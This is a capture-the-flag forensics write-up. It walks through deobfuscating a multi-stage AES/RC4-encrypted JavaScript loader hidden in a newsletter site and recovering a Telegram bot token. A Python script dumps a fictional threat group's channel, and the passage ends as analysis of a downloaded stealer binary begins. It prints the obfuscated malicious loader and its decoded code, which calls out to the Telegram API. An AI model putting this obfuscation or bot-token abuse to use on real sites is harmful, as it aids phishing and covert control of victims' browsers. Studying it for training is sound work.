 <font size='5'>Tales for the Brave</font>

7<sup>th</sup> December 2024

Prepared By: `rasti`

Challenge Author(s): `connar`, `rasti`

Difficulty: <font color='orange'>Medium</font>


# Synopsis

- `Tales for the Brave` is a Medium forensics challenge. The players are provided with a docker container running an innocent-looking website. Viewing DevTools, one should identify the malicious obfuscated JavaScript that runs and deobfuscate it to understand what the source code does. From there, they should grab the Telegram Bot token and dump the conversation between multiple APT groups from a telegram channel. One of these messages contains a downloadable which is a malware of the Stealer family. As the malware is a native statically-compiled .NET binary, using a technique known as AOT (Ahead-Of-Time), static analysis should be hard which indicates that dynamic analysis should be applied. Using API monitor one can see the calls to internet-related APIs and dump the Authorization token of the requests to find the flag.

## Description

- In Eldoria, a once-innocent website called “Tales for the Brave” has become the focus of unsettling rumors. Some claim it may secretly trap unsuspecting visitors, leading them into a complex phishing scheme. Investigators report signs of encrypted communications and stealthy data collection beneath its friendly exterior. You must uncover the truth, and protect Eldoria from a growing threat.

## Skills Required

- Examining DevTools to find potential malicious JavaScript
- Basic knowledge of symmetric encryption cryptographic schemes
- Basic knowledge of Telegram API
- Know how to do dynamic analysis

## Skills Learned

- Advanced JavaScript deobfuscation
- Learn how to interact with Telegram bots via Python
- Learn more about various useful endpoints of the Telegram API
- Learn how to do dynamic analysis with API monitor

# Enumeration

There is no downloadable for this challenge. The players are provided with just a docker instance that they can interact with. Connecting to it, we see the following seemingly innocent website.

# Challenge Overview

The website is shown below:


It is a simple newsletter form in which you can register yourself by entering your email and optionally a description about you. There are also a few offerings from which you can choose from, along with your registration. It is labeled as a forensics challenge so we should probably switch to the Developer Tools of our browser to look for any suspicious information. Quickly, we stumble upon a JavaScript file that is loaded in the website:



We select `Sources` in the DevTools to inspect `index.js` and to our surprise, this innocent-looking website looks like that it runs a ton of obfuscated JavaScript code.



If we try registering in the newsletter form, we get an alert message informing us that the form was successfully submitted and nothing else happens. This does not align with the obfuscated JavaScript code that we found earlier.


This encourages us to inspect the code further.

## Analyzing the obfuscated JavaScript

### Stage 1 Deobfuscation

Let us extract the obfuscated JS code.

```javascript
var _$_9b39 = (function(n, w) {
    var r = n.length;
    var j = [];
    for (var e = 0; e < r; e++) {
        j[e] = n.charAt(e)
    }
    ;for (var e = 0; e < r; e++) {
        var d = w * (e + 439) + (w % 33616);
        var a = w * (e + 506) + (w % 38477);
        var v = d % r;
        var p = a % r;
        var x = j[v];
        j[v] = j[p];
        j[p] = x;
        w = (d + a) % 3525268
    }
    ;var c = String.fromCharCode(127);
    var q = '';
    var m = '%';
    var t = '#1';
    var o = '%';
    var u = '#0';
    var k = '#';
    return j.join(q).split(m).join(c).split(t).join(o).split(u).join(k).split(c)
}
)("Ats8ep%%e6Sr%prB%feUseEynatcc4%ad", 1198358);
;;;;;;;;;;;;eval(CryptoJS[_$_9b39[1]][_$_9b39[0]]({
    ciphertext: CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u008D\u004A\u00A9 ... <REDACTED> ... \u0063\u0098")))
}, CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u00D9\u0039\u009D\u003C\u00D8\u005E\u0089\u0083\u0033\u00E8\u005B\u0028\u000B\u0068\u0031\u0022\u00F3\u00FB\u0018\u0078\u0075\u0028\u0021\u001C"))), {
    iv: CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u0039\u0060\u00FB\u0032\u0053\u00DF\u0092\u00A9\u006D\u00C4\u0015\u0004\u005E\u0070\u003B\u0035")))
}).toString(CryptoJS[_$_9b39[4]][_$_9b39[5]]));

```

An experienced eye will notice that the string encryption technique is used to obfuscate the actual methods being called from the CryptoJS library. `_$_9b39` is the array that stores the decrypted strings. Let us print the decrypted strings, even though it is not mandatory for the deobfuscation of the first stage.



From the strings, we conclude that the second stage is encrypted with AES. The key and the iv are hardcoded inside the first stage. Let us change `eval` to `console.log` and dump the second stage of the malicious script.

```javascript
console.log(CryptoJS[_$_9b39[1]][_$_9b39[0]]({ciphertext:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u0062\u00FB\u0033\u00C0 ... <REDACTED> ... \u0070\u0065\u000F")))},CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u00DB\u00ED\u0098\u006C\u00B1\u0089\u00A1\u0047\u0095\u00F2\u008A\u00B3\u0017\u00AF\u004C\u002D\u00B2\u0007\u0037\u0029\u00CF\u0054\u00BC\u0093"))),{iv:CryptoJS[_$_9b39[4]][_$_9b39[3]][_$_9b39[2]](btoa(unescape("\u00E4\u0075\u0026\u0014\u00CA\u004A\u0037\u002F\u0038\u0009\u00FC\u00C6\u000D\u0009\u0030\u008A")))}).toString(CryptoJS[_$_9b39[4]][_$_9b39[5]]));
```

We get the second stage decrypted:



### Stage 2 Deobfuscation

Even though we can understand that it is JavaScript code, it is still far from readable. Let us beautify it so we can read it and understand the behaviour of the malicious code.

By carefully reading the beautified source, we notice the following:

```javascript
const emailField = document[_$_8b18[3]](_$_8b18[2]);
const descriptionField = document[_$_8b18[3]](_$_8b18[4]);
let isValid = true;
if (!emailField[_$_8b18[5]]) {
    emailField[_$_8b18[8]][_$_8b18[7]](_$_8b18[6]);
    isValid = false;
    setTimeout(() => {
        return emailField[_$_8b18[8]][_$_8b18[9]](_$_8b18[6])
    }, 500)
};
if (!isValid) {
    return
};
const emailValue = emailField[_$_8b18[5]];
const specialKey = emailValue[_$_8b18[11]](_$_8b18[10])[0];
const desc = parseInt(descriptionField[_$_8b18[5]], 10);
f(specialKey, desc)
```

Again, the string encryption obfuscation technique is used to hide the names of the methods that are called.

*Note that, `console.log` treats the percentage symbol as a placeholder for format specifier. For example:*

```javascript
console.log("%");
console.log("%%");
console.log("%%%%%");
```

Output:

```
%
%
%%%
```

Therefore, we should take this into account when running parts of the second stage. Running the string decryptor, we get:


The deobfuscated version of this code snippet is shown below:

```javascript
const emailField = document.getElementById('email');
const descriptionField = document.getElementById('descriptionField');
let isValid = true;

if (!emailField.value) {
    emailField.classList.add('shake');
    isValid = false;
    setTimeout(() => {
        return emailField.classList.remove('shake')
    }, 500)
}

if (!isValid) {
    return;
};

const emailValue = emailField.value;
const specialKey = emailValue.split('@')[0];
const desc = parseInt(descriptionField.value, 10);

f(specialKey, desc);
```

In summary, this listener reads the values from the email and description field and does the following:

- Extracts the first part of the email address and uses it as a special key.

- Converts the value of the description field to an integer in base 10.

The `f` function looks promising:

```javascript
function f(oferkfer, icd) {
    const channel_id = -1002496072246;
    var enc_token = _$_5975[0];
    if (oferkfer === G(_$_5975[1]) && CryptoJS[_$_5975[7]](sequence[_$_5975[6]](_$_5975[5]))[_$_5975[4]](CryptoJS[_$_5975[3]][_$_5975[2]]) === _$_5975[8]) {
        var decrypted = CryptoJS[_$_5975[12]][_$_5975[11]](enc_token, CryptoJS[_$_5975[3]][_$_5975[9]][_$_5975[10]](oferkfer), {
            drop: 192
        })[_$_5975[4]](CryptoJS[_$_5975[3]][_$_5975[9]]);
        var HOST = _$_5975[13] + String[_$_5975[14]](0x2f) + String[_$_5975[14]](0x62) + String[_$_5975[14]](0x6f) + String[_$_5975[14]](0x74) + decrypted;
        var xhr = new XMLHttpRequest();
        xhr[_$_5975[15]] = function() {
            if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) {
                const resp = JSON[_$_5975[10]](xhr[_$_5975[18]]);
                const link = resp[_$_5975[20]][_$_5975[19]];
                try {
                    window[_$_5975[23]][_$_5975[22]](link)
                } catch (error) {
                    alert(_$_5975[24])
                }
            }
        };
        xhr[_$_5975[29]](_$_5975[25], HOST + String[_$_5975[14]](0x2f) + _$_5975[26] + icd + _$_5975[27] + channel_id + _$_5975[28]);
        xhr[_$_5975[30]](null)
    } else {
        alert(_$_5975[24])
    }
};;
```

Again, we run the string decryptor and read the values of the array `_$_5975`:

```
['nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==', 's3cur3k3y', 'Base64', 'enc', 'toString', '', 'join', 'SHA256', '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=', 'Utf8', 'parse', 'decrypt', 'RC4Drop', 'https://api.telegram.org', 'fromCharCode', 'onreadystatechange', 'readyState', 'DONE', 'responseText', 'text', 'result', 'log', 'replace', 'location', 'Form submitted!', 'GET', 'forwardMessage?chat_id=', '&from_chat_id=', '&message_id=5', 'open', 'send']
```

Deobfuscating the `f` function, we get:

```javascript
function f(oferkfer, icd) {
    const channel_id = -1002496072246;
    var enc_token = "nZiIjaXAVuzO4aBCf5eQ5ifQI7rUBI3qy/5t0Djf0pG+tCL3Y2bKBCFIf3TZ0Q==";

    if (oferkfer === G("s3cur3k3y") && CryptoJS.SHA256(sequence.join('')).toString(CryptoJS.enc.Base64) === '18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=') {
        var decrypted = CryptoJS.RC4Drop.decrypt(enc_token, CryptoJS.enc.Utf8.parse(oferkfer), {
            drop: 192,
        }).toString(CryptoJS.enc.Utf8);
        var HOST = "https://api.telegram.org/bot" + decrypted;
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function () {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                const resp = JSON.parse(xhr.responseText);
                const link = resp.result.text;
                try {
                    window.location.replace(link);
                } catch (error) {
                    alert('Form submitted!');
                }
            }
        };
        xhr.open("GET", HOST + String.fromCharCode(0x2f) + "forwardMessage?chat_id=" + icd + "&from_chat_id=" + channel_id + "&message_id=5");
        xhr.send(null);
    } else {
        alert('Form submitted!');
    }
}
```

### Analyzing the malicious behaviour

It turns out that `f` contains the main functionality of the malicious code. Let us analyze it thoroughly:

- Our special key (`oferkfer`) is compared against the value returned from `G("s3cur3k3y")`.
- A sequence array (which we will analyze later) is SHA256-hashed and base64-encoded and compared against the value `18m0oThLAr5NfLP4hTycCGf0BIu0dG+P/1xvnW6O29g=`.
- If the two comparisons return true, the `enc_token` is decrypted and appended to the `HOST` variable.
- It looks like the JavaScript code makes a request to the Telegram API and forwards a specific message.
- The variable `channel_id` is the id of the channel in which the original message exists.
- The value of the description field (which is converted to an integer) is used as the `chat_id` of the chat that the message will be forwarded to.
- If the body of the forwarded message is valid, it is used for redirection to another page.

We can extract the function `G` and call it to get the special key.



Optionally, we can analyze what this sequence array is about. Let us see where `sequence` is defined and what values it contains.

```javascript
var sequence = [];;

function l() {
    sequence.push(this.id);
};;
var _$_ead6 = ['\x69\x6E\x70\x75\x74\x5B\x63\x6C\x61\x73\x73\x3D\x63\x62\x5D', '\x71\x75\x65\x72\x79\x53\x65\x6C\x65\x63\x74\x6F\x72\x41\x6C\x6C', '\x6C\x65\x6E\x67\x74\x68', '\x63\x68\x61\x6E\x67\x65', '\x61\x64\x64\x45\x76\x65\x6E\x74\x4C\x69\x73\x74\x65\x6E\x65\x72'];
var checkboxes = document[_$_ead6[1]](_$_ead6[0]);
for (var i = 0; i < checkboxes[_$_ead6[2]]; i++) {
    checkboxes[i][_$_ead6[4]](_$_ead6[3], l)
}
```

Deobfuscating this code snippet, yields:

```javascript
var sequence = [];;

function l() {
    sequence.push(this.id);
};;

var checkboxes = document['querySelectorAll']('input[class=cb]');
for (var i = 0; i < checkboxes['length']; i++) {
    checkboxes[i]['addEventListener']('change', l)
}
```

It looks like an event listener is set for each of the four checkboxes. Toggling (checking/unchecking) any checkbox, appends the element id of the clicked checkbox into the sequence array.

**We conclude that to successfully make the Telegram API request, it is necessary not only to provide the correct special key but also to execute a specific sequence of checkbox toggles. However, as analysts, we observe that the checkbox toggle sequence is only validated and not used anywhere inside the `if` body. Consequently, we can focus only on the special key which is used to decrypt the token.**

Let us go ahead and decrypt the encrypted Telegram bot token using CyberChef. The encryption algorithm is RC4Drop.



At this point, having the bot token, we can utilize it to replicate the JavaScript request being made.

### Finding the Telegram channel invite link

The request is being made with the following line:

```javascript
xhr.open("GET", HOST + String.fromCharCode(0x2f) + "forwardMessage?chat_id=" + icd + "&from_chat_id=" + channel_id + "&message_id=5");
```

To replicate the request, we know the `message_id` should be $5$ and the `channel_id` should be `-1002496072246`. The `chat_id` is the only parameter that is not hardcoded and looks like it depends on the user input. More specifically, it is the value extracted from the description field.

Looking at the official Telegram API [docs](https://core.telegram.org/bots/api#forwardmessage) for the `/forwardMessage` endpoint, we can read what each parameter is used for:



- `channel_id` is the channel which the original message will be forwarded from.
- `message_id` is the id of the message to be forwarded.
- `chat_id` is the id of the chat that we want to forward the message to.

As the first two parameters are hardcoded, it is up to us to enter our own chat id in which we want to receive the forwarded message. It turns out that, if `A` and `B` have a private chat in Telegram, the `chat_id` used by `A` to send a message corresponds to the `user_id` of `B`, and vice versa - the `chat_id` used by `B` to send a message is the `user_id` of `A`.

We can access the `userinfobot` inside Telegram to find our `user_id`. The instructions to do so can be found [here](https://www.alphr.com/telegram-find-user-id/#:~:text=First%2C%20open%20your%20Telegram%20app,and%20the%20language%20of%20choice.). For brevity, we will refer to our `chat_id` as `12345`.

Therefore, let us make the API request manually using curl through a terminal.



To our surprise, we find a Telegram channel invite link! Moreover, we notice the suspicious channel name `Operation Eldoria`. A secret Telegram channel hiding behind an innocent-looking website is certainly a reason to dig deeper into the chat history of this channel.

### Extracting the channel's chat history

The message containing the channel invite link has an id of $5$ which makes us think that the next message should have a `message_id` of $6$, and so on. Let us create a python script to bruteforce all the messages from this channel. Even though, there is already a [script](https://gist.github.com/d-Rickyy-b/405c2341d762fa87e73edd8f584830e6) that does this job, we will showcase our own.

```python
import requests

URL = 'https://api.telegram.org/bot'
token = '7767830636:<REDACTED>'
channel_id = -1002496072246
chat_id = "your_chat_id"

for message_id in range(1, 20):
    response = requests.get(f'{URL}{token}/forwardMessage', params={'chat_id': chat_id, 'from_chat_id': channel_id, 'message_id': message_id}).json()
    if response['ok']:
        res = response['result']
        if 'text' in res:
            print(f"[+] message_id = {message_id} | message body : {res['text'].encode()}")
        elif 'document' in res:
            print(f"[+] message_id = {message_id} | file id : \"{res['document']['file_id']}\"")
```

Initially, we ran the script without the `elif` branch and the script threw us an error. By reading the messages until there, we see:

> Interesting. Their reliance on Brave works in our favor. Send over the tool and a brief summary of its capabilities.

This is probably an indicator that a file is transferred so we add the `elif` branch to deal with this case too. Then, we are able to read the entire chat history.

```
[+] message_id = 2 | message body : b'Operation Eldoria is progressing as planned. The dissidents are becoming too confident, thinking they are untouchable behind "secure" tools. As protestors, they have flocked to Brave because it\'s open source, but that might cost them their privacy.'
[+] message_id = 3 | message body : b'Interesting. Their reliance on Brave works in our favor. Send over the tool and a brief summary of its capabilities.'
[+] message_id = 4 | message body : b'Oh! We should not forget to send the invitation link for this channel to the website so the rest of the parties can join. Coordination is key, and they\xe2\x80\x99ll need access to our updates and tools like Brave.'
[+] message_id = 5 | message body : b'https://t.me/+_eYUKZwn-p45OGNk'
[+] message_id = 6 | file id : "BQACAgQAAyEFAASUxwo2AAMGZ3ewigLEBdK_BMjb806epBJtAVUAAs4YAALNMcBT0DBTt6JgX1k2BA"
[+] message_id = 7 | message body : b"This is the tool. Details:\n\n- Targets only Brave Browser users.\n- Exfiltrates the browser's local storage.\n- Operates silently and deletes traces upon execution."
[+] message_id = 8 | message body : b'Please send over the archive password.'
[+] message_id = 9 | message body : b'Oh, yes! It is dr4g0nsh34rtb3l0ngst0m4l4k4r'
[+] message_id = 10 | message body : b'I finished reviewing it. Looks promising! I will let my contacts know so they start distributing it. Let the operation begin!'
[+] message_id = 11 | message body : b'For Lord Malakar! \xe2\x9a\x94\xef\xb8\x8f'
```

### Fetching the malicious file

Having the `file_id`, we can proceed to download the malicious file that was sent in the channel. Looking at the official [docs](https://core.telegram.org/bots/api#getfile), we are able to find the actual path of the file.



Then we can either use a browser or just curl to download it.



## Analyzing the malicious executable

Let us go ahead and extract the downloaded `.zip` file.



Even though the archive is encrypted with a password, going through the chat messages we find the messages below:

> `[Message 8] :: Please send over the archive password.`  
> `[Message 9] :: Oh, yes! It is dr4g0nsh34rtb3l0ngst0m4l4k4r`

Entering `dr4g0nsh34rtb3l0ngst0m4l4k4r` as the zip password, we successfully extract the archive contents.

```bash
$ file Brave.exe
Brave.exe: PE32+ executable (console) x86-64, for MS Windows
```

It's a 2.5 MB PE32+ executable named after the popular browser - [Brave](https://brave.com/). By running strings on it we do not find anything particularly useful apart from the indication that we have to do with a .NET application.



However, the `file` command did not identify it as a .NET application. In that case, the output would look like the following:

```
Brave.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

Loading the binary in Detect It Easy, we get similar results.



This probably indicates that the original C# code has been compiled into native C++ code.

To understand the behaviour of this binary let us open it up in Ghidra.

### Analysis in ghidra

Loading the binary into ghidra, we open the function `0x1400110bc` which looks as following:


